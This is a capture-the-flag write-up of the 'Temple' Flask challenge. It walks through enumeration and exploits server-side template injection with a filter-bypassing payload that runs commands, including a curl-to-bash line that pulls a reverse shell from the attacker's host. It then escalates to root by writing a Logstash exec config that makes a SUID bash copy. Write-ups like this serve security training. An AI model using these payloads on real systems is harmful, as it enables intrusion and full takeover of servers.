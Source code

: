 Temple - Hard

Category: Security, Web, Hacking, Flask


Thoughts about the challenge before starting the challenge.
When looking at the task, based on the name and the categories, it is most likely a Server-Side Template Injection (SSTI) vulnerability that will be exploited.
Python Werkzeug Flask is well known in CTFs to contain SSTI vulnerability, and the name of the challenge also hints at the T in the SSTI.
The difficulty of the challenge could be based on how hard it is to find the vulnerability, if it is hard to exploit, bypassing of filters, and as well the difficulty of the privilege escalation.


Process for obtaining Flag1.txt:

Open ports and services:
7 echo: this service only echoes back what is being sent to it.
21 ftp - 22 ssh - 23 telnet: not leaking any sensitive data and would be time-consuming to brute force.
80 Apache HTTP: Not more than the default Apache site.
61337 Werkzeug HTTP: Based on the thoughts of the challenge, this is the service that most likely would contain the SSTI vulnerability and the service being tested at the highest priority.


When accessing the website http://IP:61337, we are being redirected to /login.
This path only contains a login form and has no functionality to access other paths.
The source code does not leak any other paths.


The login form is tested with simple SQLi and more advanced, as well as the automatization tool sqlmap without any signs of SQLi vulnerability.


Next is file and directory discovery through fuzzing.
Because this is a Flask web application, the fuzzing would be done without extensions.
Initially, I would always use a short wordlist with common names.
In Kali Linux, a standard wordlist is found at /usr/shar/wordlist/dirb/common.txt.
This gave some results, but not what was needed. Therefore it was essential to test with other wordlists.
The other wordlists are the SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-(small|medium|big).txt.
As for this, I start with the smallest wordlist first and then escalate to the bigger wordlists if needed.
This was a time-consuming task at first, and it tested the patience of the enumeration process.
The biggest tip for this process is to use FFUF and set the threads flag at a high level.
I found that both 100 and 200 threads gave the same result. This gave me the result after 3 minutes and 40 seconds.
If running default at the configuration of 40 threads, this would take a lot more time. If the service is slow, it could take over an hour.
At my first attempt at fuzzing for paths, the last path was not found after one and a half hours of fuzzing.
This resulted from a slow service and a low amount of threads. 


common.txt result:
302 - /account                                              
403 - /admin                                                
302 - /application                                           
302 - /external                                             
302 - /home                                                  
302 - /internal                                            
200 - /login                                               
302 - /logout                                               
200 - /robots.txt                                            
403 - /temporary
403 - /temporary/dev

SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
200 - /temporary/dev/newacc


The endpoint found is an endpoint where we could create an account.
This only requires an email, username, and password where the username must be longer than 5 and the password longer than 8.
After creating the account, we could login to the user portal, which gives access to the paths with the 302 code.


Under the path /account, the representative account username is displayed.
This is important to test further since it could display an SSTI vulnerability.
By creating a new account with {{5*5}} as username, the username displayed when logged in should display 25 if it is vulnerable.
If not, it could be filtered to bypass, or the correct field still needs to be found.


After creating an account with username {{5*5}}, the account path does show 25, which means it has an SSTI vulnerability, as expected from the name and category.
This could be exploited with os commands and reverse shell.


To get a foothold, Hacktricks is a fantastic tool with many copy-paste codes that could be pasted into the username field with some modifications to make it do what we want.
The cheat sheet for SSTI at hacktrick is found at: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection .


All the snippets from this site were tested, but all were rejected by the server as a hacking attempt.
This means we have to find other ways to bypass different filters which could be used.
For this, I found this site through Google: https://hackmd.io/@Chivato/HyWsJ31dI#RCE-bypassing-as-much-as-I-possibly-can


The one used was this:
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}


This is still rejected because a hacking attempt was made, but based on the website, this should bypass most of the filters.
I tested the same but changed the ' to," and this was the last bypass needed.

{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("whoami")|attr("read")()}}


This gave the result in the username field of the account endpoint, bill, which means that the bill user on the server is the user who owns the running service.
This would also make the reverse shell identity bill after successful exploitation.
For the process of gaining foothold, it is essential to start a listener.
When testing basic reverse shells, it was either reported as a hacking attempt or not giving a result to the listener.
Then I tested with a simple curl command to my IP and the listening port, which gave a hit.
This means we could create a simple bash reverse shell in a file and then open a Python server, making the curl command possible to access the file.
Therefore, changing whoami from the SSTI above to "curl http://IP:port/reverseshellfile|bash" would collect and execute the code.

{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl http://10.9.80.181/sstibypassshell|bash")|attr("read")()}}


After inserting this as the username and creating the account, a reverse shell is spawned when accessing the /account path.
This gave foothold as bill, and the first flag was found under /home/bill/flagg1.txt


Useful commands for a better shell:

1. on the target: python3 -c 'import pty;pty.spawn("/bin/bash")'
2. on the target: export TERM=xterm
3. on the target: Ctrl + Z
4. in the same window as the target is being backgrounded: stty raw -echo; fg
5. on the target: stty rows 38 columns 116

This would make it possible to arrow up for earlier commands, clear to clear the terminal.
The terminal is not being exited with CTRL + C, making it possible to run other scripts on the target and use CTRL + C to exit that script and not the terminal reverse shell.


Process for obtaining Flag2.txt:

When enumerating for escalating possibilities, I always check manually at first before using auto scripts like Linpeas.
This is because some escalations could often be found faster by one or multiple commands than by a script running multiple processes to gather critical information.
For this, commands like "netstat -tvlp" to look for undiscovered open ports or locally open ports,
"find / -perm -4000 2>/dev/null" to find SUID binaries which could be abused,
check directories like /home for which users we could privesc to, /opt /tmp for abnormalities, the flask application found at /home/bill/web app as well as running processes.
For running processes, I like to use pspy64 since it would check live processes and spawning processes, which could give a cronjob run by root that could be used.
Using ps for running processes could miss cronjobs being executed.


When using the pspy64, a binary: /usr/share/logstash/jdk/bin/java is being executed by root.
Searching for logstash at hacktricks introduces us to a privilege escalation possibility.
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash


The first indicator for this vulnerability is if this file /etc/logstash/pipelines.yml contains 'path.config: "/etc/logstash/conf.d/*.conf"'.
The * means it would use all the .conf files inside the path /etc/logstash/conf.d/. 


pipeline.yml on the target, which indicated what was explained above from hacktricks.

- pipeline.id: main
  path.config: "/etc/logstash/conf.d/*.conf"


The following important part of this exploit is to have write permission to the directory conf.d or a file inside.
In this case, we do not have write permission to the directory, but we have write permission to the only conf file inside the directory: logstash-sample.conf.

dr-xr-xr-x   2 root root  4096 Oct  3  2021 conf.d
-r--r--rw- 1 root root 101 Oct  4  2021 logstash-sample.conf


The last thing we need is a way to reload the service.
The file /etc/logstash/logstash.yml contains information about the config reloading automatically every third second.
This means it is possible to exploit the vulnerability.


logstash.yml
config.reload.automatic: true
config.reload.interval: 3s


By writing this code into the config file, we would copy the /bin/bash binary to a replica and add SUID privileges to the binary,
which means we could run this binary with the -p flag and have root privileges.
This code is the one found at https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash , but with another command.


privesc exploit:

input {
  exec {
    command => "cp /bin/bash /tmp/bash; chmod +s /tmp/bash"
    interval => 120
  }
}

output {
  file {
    path => "/tmp/output.log"
    codec => rubydebug
  }
}


The last flag is then found at /root/flag2.txt


More information:

We got access to the bill user based on the SSTI, but there were also found 2 other users, frankie and princess.
After the challenge was completed, there was found a possibility to crack the princess password based on the hash found in /etc/shadow.
This was only tested with the Rockyou wordlist. This indicates that the server allows users to have bad passwords.

It is also possible to obtain access to the MySQL service.
Credentials for this service are leaked in the /home/bill/webapp/app.py.
